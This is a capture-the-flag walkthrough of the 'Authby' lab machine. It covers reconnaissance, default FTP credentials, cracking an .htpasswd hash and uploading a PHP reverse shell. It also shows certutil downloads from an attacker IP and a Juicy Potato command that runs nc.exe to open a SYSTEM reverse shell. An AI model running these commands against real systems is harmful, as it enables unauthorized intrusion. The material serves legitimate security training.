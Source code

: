 # **Authby | Proving Grounds Practice**


***

## **Difficulty == Hard**


![image](https://i.pinimg.com/originals/e6/ef/60/e6ef60252e1a13ba001279c54f868ce0.gif)


***



Running an nmap scan we have:



```
# Nmap 7.94SVN scan initiated Sun Jul  7 15:06:55 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt -Pn 192.168.223.46
Nmap scan report for 192.168.223.46
Host is up (0.15s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
--SNIP--
242/tcp  open  http               Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
3145/tcp open  zftp-admin         zFTPServer admin
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2024-07-07T14:09:50+00:00
|_ssl-date: 2024-07-07T14:09:55+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=LIVDA
| Issuer: commonName=LIVDA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-04-10T18:40:02
| Not valid after:  2024-10-10T18:40:02
| MD5:   f90f:0605:514d:dfe9:715d:b588:528e:16de
|_SHA-1: db3a:b973:d0f5:6dcc:f1e2:f121:1a95:e956:8c8d:a632
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  7 15:09:57 2024 -- 1 IP address (1 host up) scanned in 181.67 seconds
```



Anonymous login is enabled on the default FTP server but we can't download files neither can we put files

![](https://i.imgur.com/MWxJ8xe.png)


On port 242/HTTP we have an encrypted websites, We can't bruteforce cos we don't have a username



![](https://i.imgur.com/3WWYmZ3.png)



There is another FTP port but anonymous login isn't enabled


![](https://i.imgur.com/lQ6tZ7A.png)


Navigated back to the default FTP server and under the accounts directory we can see some lists of accounts



![](https://i.imgur.com/1XhyeKi.png)



Decided to try out the account `admin` and password `admin` which worked



![](https://i.imgur.com/uPNWiCH.png)



Downloaded all the files which was possible xD


![](https://i.imgur.com/y0hsn3l.png)


Under the `.htpasswd` file we have an encrypted password and username, looks like what we need for the web app login endpoint



![](https://i.imgur.com/65LUkZ0.png)


I also confirmed if the FTP server is connected to the web application which is true cos trying to read `.htpasswd` which was available at the FTP server is probably readable on the web application if we did not have a `403` status code



![](https://i.imgur.com/ZNoNiWr.png)



Decided to crack the password we got with `JtR` and we got a valid set of credential



```
john .htpasswd --wordlist=/usr/share/wordlists/rockyou.txt
```



![](https://i.imgur.com/jSgILCH.png)



Logged in via the web application endpoint and it was successful as seen below


![](https://i.imgur.com/xSdYWpk.png)


I also make sure to confirm if we had this same text in the `index.php` file downloaded from the FTP server


![](https://i.imgur.com/m7I53a7.png)


## **FootHold**


Saved **Ivan Sinceck** PHP shell to a file and use the `put` command to upload to the FTP server then executed it from the URL making sure i have my listener turned on



```
nc -lvnp 4444
```




![](https://i.imgur.com/xPsxY7f.png)


## **Privilege Escalation**


I found out that we have the `SeImpersonatePrivilege` and we can use this to escalate to administrator, the below command retrieves and displays specific system information, including the host name, OS name, OS version, system type, and hotfixes installed, from the output of the `systeminfo` command.



```bash
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```




![](https://i.imgur.com/7RjHWnh.png)


We can see that this is a `x86` system so we need 32 bit binaries, Transferred Juicy Potato which can be gotten from [here](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2), the netcat 32 bit version can also be googled online.



```
certutil -urlcache -f http://192.168.45.213/Juicy.Potato.x86.exe Juicy.Potato.x86.exe

certutil -urlcache -f http://192.168.45.213/nc.exe nc.exe
```



Then we need the CLSID to actually make this work, You can get the CLSID from [https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/)




```
.\Juicy.Potato.x86.exe -t * -p c:\windows\system32\cmd.exe -a "/c C:\wamp\bin\apache\Apache2.2.21\nc.exe 192.168.45.213 1337 -e cmd.exe" -l 1337 -c "{3c6859ce-230b-48a4-be6c-932c0c202048}"
```




![](https://i.imgur.com/EguxHg4.png)


> Note that if the exploit doesn't work it is a matter of "**trial and error**, so keep trying maybe 2-4 times and it should work.


Bankaaaaiiiii ⚔️


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>



